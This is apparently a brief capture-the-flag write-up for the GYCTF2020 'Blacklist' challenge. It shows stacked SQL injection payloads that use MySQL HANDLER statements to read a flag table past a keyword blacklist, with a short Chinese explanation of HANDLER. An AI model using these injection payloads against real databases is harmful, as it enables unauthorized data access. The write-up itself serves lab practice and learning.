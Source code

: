 ### [GYCTF2020]Blacklist

---

```
1';show tables;
```

![image-20241020134419399](https://gitee.com/bx33661/image/raw/master/path/image-20241020134419399.png)



```
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#
---
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#

1919810931114514
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;#
```

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

官方文档：https://dev.mysql.com/doc/refman/8.0/en/handler.html

